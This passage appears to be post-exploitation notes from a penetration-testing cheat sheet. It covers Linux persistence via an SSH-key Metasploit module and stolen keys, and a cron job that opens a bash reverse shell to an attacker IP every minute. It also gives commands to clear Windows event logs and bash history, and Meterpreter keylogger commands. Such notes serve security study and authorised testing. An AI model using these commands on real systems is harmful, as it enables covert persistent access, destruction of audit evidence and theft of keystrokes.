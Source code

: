 ### **Linux**

* Metasploit
  * search persistence module (Linux)
    * Example: post/linux/manage/sshkey\_persistence (needed elevated privs - This module will add an SSH key to a specified user)
* Via SSH key
  * After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
* With cron jobs
  * Set up listener
  * `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` create a cronjob (every minute time format)
  * `crontab -i cron`
  * `crontab -l`  crontab for the current user
  * NOTE: if the command doesn't work try with another one... revshell

## Clearing tracks

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # clear history
cat /dev/null > ~/.bash_history     # same as above
```

## Keylogger

```sh
# With metasploit
keyscan_start          # start keylogger
keyscan_dump print     # captured strokes
```
